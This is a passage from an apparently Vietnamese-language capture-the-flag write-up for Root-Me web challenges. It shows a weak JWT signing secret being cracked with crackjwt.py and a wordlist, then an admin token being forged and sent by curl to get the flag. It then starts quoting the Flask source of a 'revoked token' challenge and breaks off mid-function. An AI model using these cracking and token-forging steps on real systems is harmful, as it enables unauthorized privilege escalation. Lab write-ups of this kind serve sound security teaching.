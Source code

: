 lần này mình ko thể dùng cách chuyển alg về none dc nữa r, mà sẽ phỉa crack để có đc signature, trong chall này mình sẽ dùng tool ``crackjwt.py``

```
./crackjwt.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw" ~/SecLists/rockyou.txt                    ─╯
Cracking JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw
18741it [00:00, 39596.39it/s]
Found secret key: lol
```

bingo giờ này cái key này rồi chỉnh jwt phần payload sang admin là xong

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiYWRtaW4ifQ.y9GHxQbH70x_S8F_VPAjra_S-nQ9MsRnuvwWFGoIyKXKk8xCcMpYljN190KcV1qV6qLFTNrvg4Gwyv29OCjAWA" -X POST http://challenge01.root-me.org/web-serveur/ch59/admin
{"result": "Congrats!! Here is your flag: PleaseUseAStrongSecretNextTime\n"}
```

# JWT - Revoked token
```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from flask import Flask, request, jsonify
from flask_jwt_extended import JWTManager, jwt_required, create_access_token, decode_token
import datetime
from apscheduler.schedulers.background import BackgroundScheduler
import threading
import jwt
from config import *
 
# Setup flask
app = Flask(__name__)
 
app.config['JWT_SECRET_KEY'] = SECRET
jwtmanager = JWTManager(app)
blacklist = set()
lock = threading.Lock()
 
# Free memory from expired tokens, as they are no longer useful
def delete_expired_tokens():
    with lock:
        to_remove = set()
        global blacklist
        for access_token in blacklist:
            try:
                jwt.decode(access_token, app.config['JWT_SECRET_KEY'],algorithm='HS256')
            except:
                to_remove.add(access_token)
       
        blacklist = blacklist.difference(to_remove)
 
@app.route("/web-serveur/ch63/")
def index():
    return "POST : /web-serveur/ch63/login <br>\nGET : /web-serveur/ch63/admin"
 
# Standard login endpoint
@app.route('/web-serveur/ch63/login', methods=['POST'])
def login():
    try:
        username = request.json.get('username', None)
        password = request.json.get('password', None)
```